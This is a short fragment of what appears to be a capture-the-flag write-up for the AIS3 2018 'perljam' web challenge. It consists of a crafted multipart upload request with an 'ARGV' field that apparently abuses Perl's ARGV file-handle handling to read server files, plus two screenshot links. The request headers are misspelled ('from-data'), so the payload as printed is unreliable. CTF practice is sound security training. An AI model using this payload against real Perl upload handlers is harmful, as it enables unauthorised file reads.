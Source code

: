 
```
burpsuit

Content-Type: multipart/from-data; boundary=---------103438279

-----------103438279
Content-Disposition: from-data; name="file"

ARGV
-----------103438279
Content-Disposition: from-data; name="file"; filename="file"

file
-----------103438279--
```
![](https://github.com/ssspeedgit00/CTF/blob/master/2018/ais3_pre_exam/web_4_perljam/a.png)
![](https://github.com/ssspeedgit00/CTF/blob/master/2018/ais3_pre_exam/web_4_perljam/b.png)